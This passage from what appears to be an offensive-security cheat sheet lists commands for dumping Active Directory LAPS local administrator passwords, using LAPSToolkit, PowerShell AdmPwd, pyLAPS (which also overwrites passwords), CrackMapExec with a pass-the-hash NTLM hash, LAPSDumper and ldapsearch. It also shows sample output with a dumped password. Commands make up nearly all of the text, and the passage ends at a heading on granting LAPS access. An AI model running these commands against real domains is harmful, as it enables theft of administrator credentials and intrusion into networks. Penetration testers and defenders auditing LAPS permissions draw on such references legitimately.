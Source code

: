     - [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)
        
        ```powershell
        $ Get-LAPSComputers
        ComputerName                Password                                 Expiration         
        ------------                --------                                 ----------         
        example.domain.local        dbZu7;vGaI)Y6w1L                         02/21/2021 22:29:18
        
        $ Find-LAPSDelegatedGroups
        $ Find-AdmPwdExtendedRights
        ```
        
    - Powershell AdmPwd.PS
        
        ```powershell
        foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
        ```
        
- From Linux:
    
    - [pyLAPS](https://github.com/p0dalirius/pyLAPS) to **read** and **write** LAPS passwords:
        
        ```bash
        # Read the password of all computers
        ./pyLAPS.py --action get -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip 192.168.2.1
        # Write a random password to a specific computer
        ./pyLAPS.py --action set --computer 'PC01$' -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip 192.168.2.1
        ```
        
    - [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):
        
        ```bash
        crackmapexec smb 10.10.10.10 -u 'user' -H '8846f7eaee8fb117ad06bdd830b7586c' -M laps
        ```
        
    - [LAPSDumper](https://github.com/n00py/LAPSDumper)
        
        ```bash
        python laps.py -u 'user' -p 'password' -d 'domain.local'
        python laps.py -u 'user' -p 'e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c' -d 'domain.local' -l 'dc01.domain.local'
        ```
        
    - ldapsearch
        
        ```bash
        ldapsearch -x -h  -D "@" -w  -b "dc=<>,dc=<>,dc=<>" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd`
        ```
        

### Grant LAPS Access
